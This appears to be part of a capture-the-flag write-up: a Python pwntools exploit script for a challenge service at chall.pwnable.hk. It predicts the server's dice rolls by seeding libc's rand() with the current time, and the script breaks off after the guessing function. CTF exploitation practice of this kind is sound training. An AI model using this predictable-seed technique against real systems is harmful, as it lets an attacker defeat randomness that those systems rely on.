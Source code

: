 ## Exploit script
```python
from pwn import *
import ctypes

TARGET = './chall'
#HOST = "127.0.0.1"
#PORT = 9999
HOST = 'chall.pwnable.hk'
PORT = 20001
context.arch = 'amd64' # i386/amd64
context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']
elf = ELF(TARGET)

if len(sys.argv) > 1 and sys.argv[1] == 'remote':
    p = remote(HOST, PORT)
    # libc = ELF('')
else:
    p = process(TARGET)
    libc = elf.libc
    

#--- helper functions
s       = lambda data               :p.send(data)
sa      = lambda delim,data         :p.sendafter(delim, data) 
sl      = lambda data               :p.sendline(data) 
sla     = lambda delim,data         :p.sendlineafter(delim, data) 
r       = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
# misc functions
uu32    = lambda data   :u32(data.ljust(4, b'\x00'))
uu64    = lambda data   :u64(data.ljust(8, b'\x00'))
leak    = lambda name,addr :log.success('{} = {:#x}'.format(name, addr))
#---


# Load the C standard library
libc = ctypes.CDLL("/lib/x86_64-linux-gnu/libc.so.6")

# Define the argument and return types for srand
libc.srand.argtypes = [ctypes.c_uint]

# Define the argument and return types for rand
libc.rand.restype = ctypes.c_int

# Seed the random number generator with the current time
libc.srand(int(time.time()))


def guess(libc):
    # Generate a random number between 1 and 6
    r1 = libc.rand() % 6 + 1
    r2 = libc.rand() % 6 + 1
    r3 = libc.rand() % 6 + 1
    
    print(r1,r2,r3)
    points = r1+r2+r3
    if points >= 10:
        return 2
    return 1


```